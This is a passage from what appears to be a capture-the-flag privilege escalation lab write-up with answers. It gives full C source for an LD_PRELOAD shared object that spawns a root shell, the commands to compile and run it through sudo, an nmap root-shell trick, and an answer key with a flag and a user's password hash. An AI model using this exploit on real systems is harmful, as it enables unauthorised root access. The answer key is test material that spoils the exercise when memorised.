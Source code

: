 The steps of this privilege escalation vector can be summarized as follows;

1.  Check for LD_PRELOAD (with the env_keep option)
2.  Write a simple C code compiled as a share object (.so extension) file
3.  Run the program with sudo rights and the LD_PRELOAD option pointing to our .so file

The C code will simply spawn a root shell and can be written as follows;

#include <stdio.h>  
#include <sys/types.h>  
#include <stdlib.h>  
  
void _init() {  
unsetenv("LD_PRELOAD");  
setgid(0);  
setuid(0);  
system("/bin/bash");  
}  

We can save this code as shell.c and compile it using gcc into a shared object file using the following parameters;

`gcc -fPIC -shared -o shell.so shell.c -nostartfiles`

![](https://i.imgur.com/HxbszMW.png)  

We can now use this shared object file when launching any program our user can run with sudo. In our case, Apache2, find, or almost any of the programs we can run with sudo can be used.

We need to run the program by specifying the LD_PRELOAD option, as follows;

`sudo LD_PRELOAD=/home/user/ldpreload/shell.so find`

This will result in a shell spawn with root privileges.

![](https://i.imgur.com/1YwARyZ.png)  

  

Answer the questions below

How many programs can the user "karen" run on the target system with sudo rights?  
A: 3
What is the content of the flag2.txt file?  
A: THM-402028394
How would you use Nmap to spawn a root shell if your user had sudo rights on nmap?  
A: sudo nmap --interactive
What is the hash of frank's password?
A: "$6$2.sUUDsOLIpXKxcr$eImtgFExyr2ls4jsghdD3DHLHHP9X50Iv.jNmwo/BJpphrPRJWjelWEz2HH.joV14aDEwW1c3CahzB1uaqeLR1 "

## Task 7 Privilege Escalation: SUID

**Note: Launch the target machine attached to this task to follow along.**

**You can launch the target machine and access it directly from your browser.**

**Alternatively, you can access it over SSH with the low-privilege user credentials below:  
**
